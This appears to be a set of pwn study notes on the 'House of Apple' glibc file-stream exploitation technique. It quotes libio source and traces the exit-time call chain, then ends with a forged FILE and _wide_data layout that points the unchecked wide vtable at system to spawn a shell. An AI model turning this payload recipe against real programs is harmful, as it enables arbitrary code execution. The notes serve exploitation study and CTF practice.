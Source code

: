 ```yaml
---
title: House of Apple
date: 2023-12-05 23:13
updated: 2023-12-05 23:13
tags:
    - pwn
    - fsop
---
```


Original article: <https://www.roderickchan.cn/zh-cn/house-of-apple-一种新的glibc中io攻击方法-1/>

Requirements:
1. can call `exit` or return from `main`
2. heap_base and libc_base
3. single largebin chunk

# Overview

In glibc, jumps from vtables are made via these macros:

```c
// example jump macro with 1 extra argument
#define JUMP1(FUNC, THIS, X1) (_IO_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)
#define WJUMP1(FUNC, THIS, X1) (_IO_WIDE_JUMPS_FUNC(THIS)->FUNC) (THIS, X1)

#define _IO_JUMPS_FUNC(THIS) (IO_validate_vtable(_IO_JUMPS_FILE_plus (THIS) + (THIS)->_vtable_offset) )
#define _IO_WIDE_JUMPS_FUNC(THIS) _IO_WIDE_JUMPS(THIS)

#define _IO_JUMPS_FILE_plus(THIS) _IO_CAST_FIELD_ACCESS ((THIS), struct _IO_FILE_plus, vtable)
#define _IO_WIDE_JUMPS(THIS) _IO_CAST_FIELD_ACCESS ((THIS), struct _IO_FILE, _wide_data)->_wide_vtable
```

The macros for `WXXX` are not protected by `IO_validate_vtable`, so we can use
this to call arbitrary function. These macros are used in functions of
`_IO_wfile_jumps` vtable:

```c
const struct _IO_jump_t _IO_wfile_jumps libio_vtable =
{
  JUMP_INIT_DUMMY,
  JUMP_INIT(finish, _IO_new_file_finish),
  JUMP_INIT(overflow, (_IO_overflow_t) _IO_wfile_overflow),
  JUMP_INIT(underflow, (_IO_underflow_t) _IO_wfile_underflow),
  JUMP_INIT(uflow, (_IO_underflow_t) _IO_wdefault_uflow),
  JUMP_INIT(pbackfail, (_IO_pbackfail_t) _IO_wdefault_pbackfail),
  JUMP_INIT(xsputn, _IO_wfile_xsputn),
  JUMP_INIT(xsgetn, _IO_file_xsgetn),
  JUMP_INIT(seekoff, _IO_wfile_seekoff),
  JUMP_INIT(seekpos, _IO_default_seekpos),
  JUMP_INIT(setbuf, _IO_new_file_setbuf),
  JUMP_INIT(sync, (_IO_sync_t) _IO_wfile_sync),
  JUMP_INIT(doallocate, _IO_wfile_doallocate),
  JUMP_INIT(read, _IO_file_read),
  JUMP_INIT(write, _IO_new_file_write),
  JUMP_INIT(seek, _IO_file_seek),
  JUMP_INIT(close, _IO_file_close),
  JUMP_INIT(stat, _IO_file_stat),
  JUMP_INIT(showmanyc, _IO_default_showmanyc),
  JUMP_INIT(imbue, _IO_default_imbue)
};
```

The struct of `f->_wide_data` is

```c
/* Extra data for wide character streams.  */
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;
  wchar_t *_IO_read_end;
  wchar_t *_IO_read_base;
  wchar_t *_IO_write_base; // 0x18
  wchar_t *_IO_write_ptr;
  wchar_t *_IO_write_end;
  wchar_t *_IO_buf_base; // 0x30
  wchar_t *_IO_buf_end;	
  wchar_t *_IO_save_base;
  wchar_t *_IO_backup_base;
  wchar_t *_IO_save_end;
  __mbstate_t _IO_state;
  __mbstate_t _IO_last_state;
  struct _IO_codecvt _codecvt;
  wchar_t _shortbuf[1];
  const struct _IO_jump_t *_wide_vtable; // 0xe0
};
```

It's quite similar to FILE, but vtable is at 0xe0.

## _IO_wfile_overflow

### Analysis

When `exit` is called, the FILE cleanup call stack is `fcloseall -> _IO_cleanup -> _IO_flush_all_lockp`.

```c
int _IO_flush_all_lockp (int do_lock)
{
  int result = 0;
  FILE *fp;

#ifdef _IO_MTSAFE_IO
  _IO_cleanup_region_start_noarg (flush_cleanup);
  _IO_lock_lock (list_all_lock);
#endif

  for (fp = (FILE *) _IO_list_all; fp != NULL; fp = fp->_chain)
    {
      run_fp = fp;
      if (do_lock)
	_IO_flockfile (fp);

      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF) // <--- overflow call
	result = EOF;

      if (do_lock)
	_IO_funlockfile (fp);
      run_fp = NULL;
    }

#ifdef _IO_MTSAFE_IO
  _IO_lock_unlock (list_all_lock);
  _IO_cleanup_region_end (0);
#endif

  return result;
}

// definition of _IO_OVERFLOW
typedef int (*_IO_overflow_t) (FILE *, int);
#define _IO_OVERFLOW(FP, CH) JUMP1 (__overflow, FP, CH)
#define _IO_WOVERFLOW(FP, CH) WJUMP1 (__overflow, FP, CH)
```

So for each FILE in `_IO_list_all`, its `vtable->__overflow` is called when the below requirements are satisfied:

1. `fp->_mode == 0`
2. `fp->_IO_write_ptr > fp->_IO_write_base`

We can set our victim FILE (`stderr`) to point to this vtable. On exit, it will call the
overflow function, `_IO_wfile_overflow`, which is defined as:

```c
wint_t _IO_wfile_overflow (FILE *f, wint_t wch)
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return WEOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
    {
      /* Allocate a buffer if needed. */
      if (f->_wide_data->_IO_write_base == 0)
	{
	  _IO_wdoallocbuf (f); // <-- call to _IO_wdallocbuf macro
	  _IO_free_wbackup_area (f);
	  _IO_wsetg (f, f->_wide_data->_IO_buf_base,
		     f->_wide_data->_IO_buf_base, f->_wide_data->_IO_buf_base);

	  if (f->_IO_write_base == NULL)
	    {
	      _IO_doallocbuf (f);
	      _IO_setg (f, f->_IO_buf_base, f->_IO_buf_base, f->_IO_buf_base);
	    }
    // ...
    }
}

void _IO_wdoallocbuf (_IO_FILE *fp)
{
  if (fp->_wide_data->_IO_buf_base)
    return;
  if (!(fp->_flags & _IO_UNBUFFERED))
    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF)
      return;
  _IO_wsetb (fp, fp->_wide_data->_shortbuf,
		     fp->_wide_data->_shortbuf + 1, 0);
}

#define _IO_WDOALLOCATE(FP) WJUMP0 (__doallocate, FP)
#define WJUMP0(FUNC, THIS) (_IO_WIDE_JUMPS_FUNC(THIS)->FUNC) (THIS)
```

The `_IO_wfile_overflow` function calls `_IO_wdoallocbuf`, which then calls
`__doallocate` of the `_wide_vtable`, passing the FILE struct as the first
argument. As mentioned, the `_wide_vtable` performs no checks so we can point
this to system.

So our call stack looks like this:

```
_IO_wfile_overflow -> _IO_wdoallocbuf -> _IO_WDOALLOCATE -> _wide_data._wide_vtable.__doallocate
```

Analyzing each of the functions, we need to satisfy:
1. `f->flags == ~(0x8 | 0x800 | 0x2)` (unset `_IO_NO_WRITES`, `_IO_CURRENTLY_PUTTING` and `_IO_UNBUFFERED`)
2. `f->_wide_data->_IO_write_base == 0`
2. `f->_wide_data->_IO_buf_base == 0`

Then our desired function goes into `__doallocate (_wide_vtable+0x68)`, and rdi goes into `flags`.

### Payload

With the above conditions satisfied, our FILE struct will look like this:

```c
// FILE
f->_flags = "  sh";
f->write_base = 0; // +0x20
f->write_ptr = 1; // +0x28
f->_wide_data = ; // <ptr to forged wide_data struct> at +0xa0
f->_mode = 0; // +0xc0 (note: pwntools FILE struct doesn't have this, but can leave as blank cos default is likely 0)
f->vtable = &_IO_wfile_jumps; // +0xd8

// _wide_data (can forge in heap etc)
_wide_data->_IO_write_base = 0; // +0x18
_wide_data->_IO_buf_base = 0; // +0x30
_wide_data->_wide_vtable = *(&(system) - 0x68); // <ptr to (system - 0x68)> at +0xe0
```

There are a few more gadget chains using `_IO_wfile_underflow_mmap`,
`_IO_wdefault_xgetn`, `_IO_wfile_underflow`, `_IO_wdo_write` and
`_IO_wfile_sync` which I will put here once I analyze them.
